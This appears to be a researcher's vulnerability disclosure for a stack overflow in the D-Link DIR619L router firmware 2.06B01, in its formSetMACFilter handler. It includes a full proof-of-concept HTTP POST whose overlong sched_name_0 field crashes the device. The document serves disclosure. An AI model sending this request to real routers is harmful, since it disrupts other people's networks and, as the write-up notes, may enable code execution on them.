

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formSetMACFilter` function, `hostname_%d、sched_name_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `hostname_%d、sched_name_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `hostname_%d、sched_name_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `sched_name_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formSetMACFilter HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2483
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Advanced/MAC_Address_Filter.asp
Upgrade-Insecure-Requests: 1

settingsChanged=1&curTime=1431078142&config.wifisc.enabled=true&macFltMode=0&mode=0&used_0=1&enabled_0=false&mac_0=&hostname_0=&sched_name_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&used_1=0&enabled_1=false&mac_1=&hostname_1=&sched_name_1=Always&used_2=0&enabled_2=false&mac_2=&hostname_2=&sched_name_2=Always&used_3=0&enabled_3=false&mac_3=&hostname_3=&sched_name_3=Always&used_4=0&enabled_4=false&mac_4=&hostname_4=&sched_name_4=Always&used_5=0&enabled_5=false&mac_5=&hostname_5=&sched_name_5=Always&used_6=0&enabled_6=false&mac_6=&hostname_6=&sched_name_6=Always&used_7=0&enabled_7=false&mac_7=&hostname_7=&sched_name_7=Always&used_8=0&enabled_8=false&mac_8=&hostname_8=&sched_name_8=Always&used_9=0&enabled_9=false&mac_9=&hostname_9=&sched_name_9=Always&used_10=0&enabled_10=false&mac_10=&hostname_10=&sched_name_10=Always&used_11=0&enabled_11=false&mac_11=&hostname_11=&sched_name_11=Always&used_12=0&enabled_12=false&mac_12=&hostname_12=&sched_name_12=Always&used_13=0&enabled_13=false&mac_13=&hostname_13=&sched_name_13=Always&used_14=0&enabled_14=false&mac_14=&hostname_14=&sched_name_14=Always&used_15=0&enabled_15=false&mac_15=&hostname_15=&sched_name_15=Always&used_16=0&enabled_16=false&mac_16=&hostname_16=&sched_name_16=Always&used_17=0&enabled_17=false&mac_17=&hostname_17=&sched_name_17=Always&used_18=0&enabled_18=false&mac_18=&hostname_18=&sched_name_18=Always&used_19=0&enabled_19=false&mac_19=&hostname_19=&sched_name_19=Always&used_20=0&enabled_20=false&mac_20=&hostname_20=&sched_name_20=Always&used_21=0&enabled_21=false&mac_21=&hostname_21=&sched_name_21=Always&used_22=0&enabled_22=false&mac_22=&hostname_22=&sched_name_22=Always&used_23=0&enabled_23=false&mac_23=&hostname_23=&sched_name_23=Always
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
